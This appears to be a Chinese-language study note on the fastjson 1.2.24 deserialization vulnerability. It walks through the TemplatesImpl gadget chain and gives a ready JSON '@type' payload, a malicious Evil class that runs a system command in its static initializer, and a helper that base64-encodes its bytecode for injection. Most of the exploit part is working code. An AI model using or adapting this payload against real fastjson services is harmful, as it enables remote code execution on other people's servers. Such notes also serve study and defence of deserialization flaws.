

# fastjson-1.2.24

* ## **TemplatesImpl**

动态加载字节码那节有提到`TemplatesImpl`：

> `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`中定义了一个内部类`TransletClassLoader `
>
> 存在作用域为`default`的方法`defineClass`
>
> 找到如下调用链：
>
> TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()
>
> ```java
> // TemplatesImpl#getOutputProperties()
> public synchronized Properties getOutputProperties() {
>     try {
>         return newTransformer().getOutputProperties();
>     }
>     catch (TransformerConfigurationException e) {
>         return null;
>     }
> }
> // TemplatesImpl#newTransformer()
> public synchronized Transformer newTransformer(){
>     TransformerImpl transformer;
>     transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
>                                       _indentNumber, _tfactory);
> }
> // TemplatesImpl#getTransletInstance()
> private Translet getTransletInstance() {
>     try {
>         if (_name == null) return null;
>         if (_class == null) defineTransletClasses();
>         // ....
>     }
>     AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
>         // ...
> }
> // TemplatesImpl#defineTransletClasses()
> private void defineTransletClasses() {
>     //....
>     TransletClassLoader loader =
>         AccessController.doPrivileged(new PrivilegedAction<TransletClassLoader>() {
>             public TransletClassLoader run() {
>                 return new TransletClassLoader(ObjectFactory.findClassLoader(),
>                                                _tfactory.getExternalExtensionsMap());
>             }
>         });
>     // ...
>     for (int i = 0; i < classCount; i++) {
>         _class[i] = loader.defineClass(_bytecodes[i], pd);
>         // ....
>     }
> }
> ```
>
> - `defineTransletClasses`方法中`_tfactory.getExternalExtensionsMap()` `_tfactory`是`TransformerFactoryImpl`类 为了不抛出异常需要`_tfactory = new TransformerFactoryImpl()`
> - `getTransletInstance`方法中判断`if (_name == null) return null;` 所以要给`_name`赋值（String）
>
> `TemplatesImpl` 中对加载的字节码是有一定要求的：这个字节码对应的类必须 是 `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet `的子类。
>
> `TemplatesImpl#getTransletInstance()`首先执行`defineTransletClasses()`加载类后，还会对该类进行实例化`(AbstractTranslet) _class[_transletIndex].newInstance();`
>
> 而`getOutputProperties()`正是`TemplatesImpl`的`_outputProperties`属性对应的getter方法

由于更改的一些`TemplatesImpl`私有变量没有 setter 方法，需要使用 `Feature.SupportNonPublicField` 参数。

PayLoad：

> { 
>
> ​	"@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl", 
>
> ​	"\_bytecodes": ["evilCode after Base64"], 
>
> ​	"\_name": "taco", 
>
> ​	"\_tfactory": {}, 
>
> ​	"\_outputProperties": {}, 
>
> }

恶意类Evil.java：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Evil extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers)
            throws TransletException {}
    public void transform(DOM document, DTMAxisIterator iterator,
                          SerializationHandler handler) throws TransletException {}
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    public Evil() {
    }
}
```

获取Base64编码后的Evil.class字节码

```java
import javassist.ClassPool;
import java.util.Base64;

public class getPayLoad {
    public static void main(String[] args) throws Exception {
        byte[] code = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();
        System.out.println(Base64.getEncoder().encodeToString(code));
    }
}
```



## 局限

需要 `Feature.SupportNonPublicField` 参数